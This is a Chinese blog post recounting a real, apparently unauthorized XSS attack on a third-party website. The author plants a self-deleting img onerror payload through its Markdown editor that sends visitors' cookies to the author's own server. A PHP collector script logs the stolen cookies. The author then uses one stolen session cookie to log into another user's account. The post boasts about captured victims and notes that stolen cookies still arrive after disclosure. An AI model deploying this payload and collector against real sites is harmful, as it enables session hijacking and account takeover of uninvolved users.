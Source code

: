 ```yaml
---
title: 'XSS注入Session Fixation攻击'
date: 2016-07-23 07:48:22
tags: 
    - '网络安全'
    - PHP
    - XSS
    - 'Session Fixation'

categories:
    - '技术分享'
---
```


第一次实地操作web渗透？

<!--more-->
啊哈哈，结果还是喜人的，附上Cookie登陆后的图：

![Cookie 登陆](xss-session-fixation/4031893413.png)

常规信息已经打码，本次web渗透的成功原因有两个
## 1. XSS注入漏洞若干  
为啥这么说勒？若干？反正不是第一次在这个网站上发现XSS漏洞了，想我当初把XSS当作一个玩具，咳咳，，注入CSS样式表，发奇怪的帖子，就是自定义样式的帖子，嗯，后续和网站的客服妹子联系后修补了。看了《XSS跨站脚本攻击剖析与防御》后，才知道这个漏洞叫XSS注入漏洞，手痒痒，就再次对这个网站进行了测试，不测试不知道,已测试，我尼玛，，先贴测试脚本

```html
<img src="" 
onerror="var s=document.createElement('script');
s.setAttribute('src','//safe.atd3.cn/a?b='+document.domain+'&c='+document.cookie);
var b=document.all[0];
b.appendChild(s);
b.removeChild(s);
this.parentNode.removeChild(this);">
```

这是一个中规中矩的测试脚本，在网页中插入图片，由于图片没有指定的url
然后会调用`onerror`事件，在`onerror`事件中会创建一个脚本链接，发出跨站请求，请求的查询字符为网页的`cookie`和域名
反正这是我的一个简易后台代码,PHP做服务器端的

```php
<?php
$file_name='cookie.php';
if (!file_exists($file_name))
	file_put_contents($file_name,"<?php \$a=[];\n");
if (isset($_SERVER['QUERY_STRING']))
{
	file_put_contents($file_name,'$a[]=\''.$_SERVER['QUERY_STRING']."';\n",FILE_APPEND);
}
```

好了，前期准备做好了，接下来开始注入测试，，，进入网站，，
直接插入一个简单的代码

```html
<img src="" onerror="console.log('xss');">
```

这个是用来测试XSS漏洞的，，由于篇幅原因，我直接拿最致命的XSS注入载体---markdown编辑器来做示范吧,如图

![用Markdown编辑](xss-session-fixation/2242201383.png)

咳咳，，嗯，我顺带回答了问题，看看注入后的效果

![注入脚本查看](xss-session-fixation/31655912.png)

啥都木有，是不是插入失败了？不。脚本自我删除了，唯一的痕迹就在这里

![唯一的痕迹](xss-session-fixation/1244653846.png)

然后，，我们去服务器看看，，由于时原因，我就没等这个小伙子再次访问这个页面了，拿个其他小伙子的截图凑合一下，，额，四次捕获同一个小伙子

![倒霉的小伙子](xss-session-fixation/3364299923.png)

侬，这是XSS注入的后果，成功拿到了cookie，可是高兴的太早了，，如果这样就可以过了，那标题就不是混合了，，，
接下来是第二个成功原因`session fixation`漏洞

## 2. session fixation 攻击

第一次XSS攻击成功获取到了cookie，，哎，还是说说这个玩意吧，，
毕竟网站的开发者考虑到了XSS注入，却没关注到这点，开发者做过XSS防范，如图

![XSS防范](xss-session-fixation/528666995.png)

看图`HTTP`的红色标记，，这个是标记了`HttpOnly`的cookie，通过这个，我们用脚本
`document.cookie`获取的cookie就不完整了，，，如图，，

![脚本获取的cookie](xss-session-fixation/2533359386.png)

可怕。我一直在想怎么绕过这个，，可惜哦。不可以。。
还有要吐槽的是那个箭头标注的cookie名，反正我盗取的cookie都一个样，，亏我还以为他是随机生成的，哎
cookie不完整，，经过测试，，我发现特么只需要一个cookie就好了，，

![修改cookie](xss-session-fixation/3441714176.png)

通过抓包软件，抓到的数据包可以证明：

![一个cookie的GET](xss-session-fixation/3100487257.png)

然后还有更无语的,那个我特么则怎么都获取不到的`HttpOnly`的cookie直接出现在了返回的包里，也是没得讲了

![返回设置cookie](xss-session-fixation/2520477158.png)

就问傻不傻~！session fixation攻击，，？应该就是叫这个来着
咳咳咳。。。嗯，获取到的返回页面，再截图一个，，，

![返回的页面](xss-session-fixation/1298714253.png)

哎呀呀，居然是个妹子，，咳咳，单身30年，见谅（年18.。。。。。
这次漏洞危险性已经可以得到证明了，说大不大，说小不小。嗯，，，
已经和客服联系了，毕竟是朋友（关键是妹子:P），后续的自我复制就算了了。没必要搞得整个网站都挂上我的XSS不是么。。
啊哈哈，好了，总结，，

## 3. 总结
在此次渗透过程中我使用了三种方式

1. XSS 注入
2. session fixation 探测
3. iframe 劫持  
	这个东西麽。网站对其有防范。。。就不截图了

在自己设置网站的过程中，应该注意的就是一些细节问题。咳，脑残的对百度进行了session fixation试探，删除一个cookie
直接变成了未登陆状态，咳，还意外发现了这个：

![百度的招聘](xss-session-fixation/4207819758.png)

所以说，机会只留给那些有啥啥啥的人。别再感叹无法求职，或许你按一个`F12`键，求职单就来了

>本文章写作的目的不是教你如何去进行恶意的破坏活动，而是为了教你如何抵御这些攻击行为


---

刚刚又去看了下盗取的后台，尽管和网站负责人交流过过后，还是有部分脚本没删除干净，不过，怪我咯~

![后台盗取的Cookie](xss-session-fixation/2401380495.png)
![和负责人的交流](xss-session-fixation/2350100276.png)
